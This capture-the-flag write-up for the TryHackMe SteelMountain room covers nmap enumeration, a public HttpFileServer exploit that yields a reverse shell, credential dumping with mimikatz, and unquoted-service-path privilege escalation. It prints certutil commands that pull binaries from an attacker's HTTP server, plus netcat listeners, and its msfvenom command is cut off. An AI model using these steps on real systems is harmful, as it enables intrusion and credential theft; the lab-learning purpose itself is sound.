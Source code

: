 # SteelMountain [THM](https://tryhackme.com/room/steelmountain)
![steel-mountain-01]()

## recon 

Lets kick off enumeration with `nmap`:

`nmap -T4 -p- -A -Pn 10.10.80.108`

![nmap-res-02]()

we have the following services:

+ An IIS V8.5 server on port 80.
+ An RPC endpoint on port 135.
+ NETBIOS-SSN on port 139.
+ SMB on port 445.
+ RDP V6.3 on port 3389.
+ An HTTPAPI on ports 5985 and 47001.
+ AN HTTP File server on port 8080.

Trying to interact with the RDP fails on an authorization error:

`Failed to connect, CredSSP required by server`. 

This happens becuase our kali machine isnt setup with kerberos. 

Lets check the SMB, see if its misconfigured, maybe we can find credetials there. 
Then well take a look at the web server and the various API's.



### SMB 445

If we try to login anonymously with `smbclient` we get kicked out:

![smbclinet-fail-03]()


If we try `crackmapexec` this fails as well:

![crackmapexec-fail-04]()


Looks like a dead end, we need creds. Lets check the HTTP server. 



### HTTP 80

Navigating towards the site's URL `http://10.10.80.108`

![site-05]()


Look empty. I've tried directory busting, it only leads to an `img` directory with noting interesting. 
Source code looks empty as well:

![site-source-06]()

Lets take a look at the file server.


### HttpFileServer 8080


If we navigate towards the target URL `http://10.10.80.108:8080`

![file-server-07]()


We have a search feature, and a login form, but we dont need to log in to search stuff. 
Searching yields nothing, but if we check for known vulnerabilities online we find something juicy:

![exploitdb-08]()

[Source](https://www.exploit-db.com/exploits/39161)


Looks like Python 2, appears to be abusing the search feature:

![exploit-analyze-09]()


Looks promising. Worth a shot. 


## Exploit

Here is the exploitation breakdown: 

1) Download the exploit to your kali, and make sure to update your IP and port:

![update-exploit-10]()


2) Place a copy of `nc.exe` in a directory of your choosing and fire off an HTTP server on port 80

`python3 -m http.server 80` 

![http-server-11]()


3) Start the listener with `nc -lvnp 8044`


4) Execute the exploit with `./exploit.py 10.10.8.108 8080`


5) Get a shell:

![shell-12]()


Lets get system!



## Privilege Escalation 

If we run `systeminfo`:

![sysinfo-13]()


We are dealing with a MS server 2012 R2. Lets try searching for stored credentials.   

I tried manual searching with:

`findstr /spin "password" *.*`

I tried searching the regestry with:

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

I then tried [mimikatz](https://github.com/gentilkiwi/mimikatz)
Download the tool, transfer to the clinet via python web server and `certutil`.

I tried running `vault::cred`

![mimikatz-14]()

Looks like a password. I tried connecting via the RDP, same error of:

`Failed to connect, CredSSP required by server`

I tried using the password to enumerate the smb with different tools like `enum4linux` and `smbclient`,
nothing interesting came up. 

Decided to shift gears and try [winpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20230731-452f0c44) We need the `winPEASx64.exe` binary. 

1) Transfer it to the clinet using a python server with:

`python3 -m http.server 80`

2) Download it to the target with:

`certutil -urlcache -f http://10.18.22.182/winPEASx64.exe winpeas.exe`

3) Execute `winpeas.exe`

![winpeas-15]()

We have an unquoted service with spaces, we can potentially hijack this with our own custom binary. 
Our user also has full write permission to this directory. 

Lets examine this process. First lets run `net start` to list all running processes:

![net-start-16]()

Lets check its properties, primarly, under which user it runs. We can do this with:

`sc qc AdvancedSystemCareService9`

![sc-16]()

It runs as the system. We can abuse this to gain system access. 

1) Create venom 

`msfvenom -p windows/x64/re`


2) Stop the service on the target with:

`net stop AdvancedSystemCareService9`


3) Download the venom to the target with:

`certutil -urlcache -f http://10.18.22.182/ASCService.exe ASCService.exe`


4) Start the listener with:

`nc -lvnp 9009`


5) Start the service with:

`net start AdvancedSystemCareService9`


6) Get system:

![root-17]()
